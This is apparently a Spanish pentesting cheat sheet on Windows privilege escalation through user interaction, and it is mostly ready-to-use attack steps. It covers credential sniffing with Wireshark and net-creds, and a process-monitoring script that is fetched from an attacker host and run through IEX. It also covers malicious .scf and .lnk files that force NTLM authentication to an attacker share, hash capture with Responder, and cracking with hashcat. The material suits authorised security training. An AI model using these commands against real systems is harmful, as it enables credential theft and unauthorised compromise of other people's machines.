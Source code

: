 # Windows Privilege Escalation – Interacting with Users

Los usuarios pueden ser aprovechados como vector de escalada de privilegios. Estas técnicas implican manipular su interacción con el sistema para obtener credenciales o hashes.

---

## 1. Captura de tráfico (Traffic Capture)

### Descripción
Si Wireshark o Npcap están instalados y mal configurados, es posible capturar tráfico en la máquina y robar credenciales en texto claro o hashes NTLM.

### Pasos

1. **Verificar instalación:**
   - Revisar si existe Wireshark/Npcap en `C:\Program Files\Wireshark\`.

2. **Capturar tráfico en la máquina comprometida:**
   ```powershell
   wireshark
   ```
   - Filtrar por protocolos: `ftp`, `http`, `smtp`.

3. **Analizar credenciales:**
   Ejemplo de tráfico FTP:
   ```
   USER root
   PASS FTP_adm1n!
   ```

4. **Alternativa desde máquina atacante:**
   - Capturar con `tcpdump` o Wireshark.
   - Extraer credenciales automáticamente:
     ```bash
     sudo python3 net-creds.py -i eth0
     # o
     sudo python3 net-creds.py -p captura.pcap
     ```

---

## 2. Monitoreo de líneas de comandos de procesos

### Descripción
Detectar credenciales pasadas como argumentos en procesos (`net use`, tareas programadas).

### Pasos

1. **Script en PowerShell para monitorear:**
   ```powershell
   while($true) {
     $process = Get-WmiObject Win32_Process | Select-Object CommandLine
     Start-Sleep 1
     $process2 = Get-WmiObject Win32_Process | Select-Object CommandLine
     Compare-Object -ReferenceObject $process -DifferenceObject $process2
   }
   ```

2. **Ejecutar desde máquina víctima (cargado desde atacante):**
   ```powershell
   IEX (iwr 'http://<IP_atacante>/procmon.ps1')
   ```

3. **Ejemplo encontrado:**
   ```
   net use T: \\sql02\backups /user:dominio\sqlsvc My4dm1nP@s5w0Rd
   ```

4. **Usar credenciales descubiertas:**
   ```powershell
   net use T: \\sql02\backups /user:dominio\sqlsvc My4dm1nP@s5w0Rd
   ```

---

## 3. SCF malicioso en shares

### Descripción
Archivos `.scf` manipulados provocan autenticación SMB al acceder a la carpeta.

### Pasos

1. **Crear archivo malicioso:**
   Guardar como `@Inventory.scf`:
	```ini
	   [Shell]
	   Command=2
	   IconFile=\\<IP_atacante>\share\legit.ico
	   [Taskbar]
	   Command=ToggleDesktop
	```

2. **Colocarlo en share accesible.**

3. **Ejecutar Responder para capturar hashes:**
   ```bash
   sudo responder -wrf -v -I tun0
   ```

4. **Crackear hash con Hashcat:**
   ```bash
   hashcat -m 5600 hash.txt /usr/share/wordlists/rockyou.txt
   ```

---

## 4. Archivos `.lnk` maliciosos (para Server 2019+)

### Descripción
Alternativa a SCF cuando ya no funcionan en Server 2019 y posteriores.

### Pasos

1. **Generar `.lnk` malicioso con PowerShell:**
   ```powershell
   $objShell = New-Object -ComObject WScript.Shell
   $lnk = $objShell.CreateShortcut("C:\legit.lnk")
   $lnk.TargetPath = "\\<IP_atacante>\@pwn.png"
   $lnk.WindowStyle = 1
   $lnk.IconLocation = "%windir%\system32\shell32.dll, 3"
   $lnk.Description = "Browse to trigger auth request"
   $lnk.HotKey = "Ctrl+Alt+O"
   $lnk.Save()
   ```

2. **Colocar el `.lnk` en un share usado por usuarios.**

3. **Capturar hashes con Responder/Inveigh.**


---

## Notas técnicas sobre monitoreo de procesos

### Qué información muestra el script
- Ejecutables y su ruta completa
  ```
  C:\Windows\System32\cmd.exe
  C:\Tools\backup.exe
  ```
- Parámetros en la línea de comandos (posibles credenciales o rutas)
  ```
  net use T: \\sql02\backups /user:dominio\sqlsvc My4dm1nP@s5w0Rd
  sqlcmd -S sql01 -U sa -P Sup3rS3cret
  ```
- Procesos temporales o tareas programadas
  ```
  C:\Windows\System32\DllHost.exe /Processid:{AB8902B4-09CA-4BB6-B78D-A8F59079A8D5}
  ```

### Por qué es útil
- Captura contraseñas en texto claro en comandos.
- Detecta actividad sensible (backups, conexiones SQL, montajes de red).
- Identifica software interno para posibles vectores adicionales.

### Limitaciones
- No captura lo que el usuario escribe dentro de programas.
- Solo muestra parámetros de CLI, no datos en memoria.
- Requiere ejecución constante para no perder procesos fugaces.
